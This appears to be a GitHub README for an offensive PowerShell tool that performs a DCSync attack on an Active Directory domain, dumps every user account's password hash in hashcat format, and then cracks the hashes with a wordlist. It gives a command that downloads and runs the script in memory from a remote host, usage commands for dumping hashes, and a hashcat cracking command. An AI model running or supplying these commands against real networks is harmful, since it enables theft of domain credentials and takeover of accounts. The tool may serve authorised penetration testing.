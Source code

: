 # DCSync-To-hashcat
Performs DCSync and extracts all user accounts hashes in a hashcat friendly format

### Load into memory:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```
### Commands:
```
Invoke-DCSyncTH                          # Run with default options
Invoke-DCSyncTH -ComputerHashes -Y       # Include computer accounts
Invoke-DCSyncTH -OutputToFile -Y         # Output hashes to file. Defaults to $HOME\Hashcat_Final.txt 
```
### Sample Output
![image](https://user-images.githubusercontent.com/68926315/226433487-431a26e1-9b8a-46b6-af31-ea879b8bca6b.png)

### hashcat cracking
The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt -O Wordlists/rockyou2021.txt -r Rules/best64.rule
```
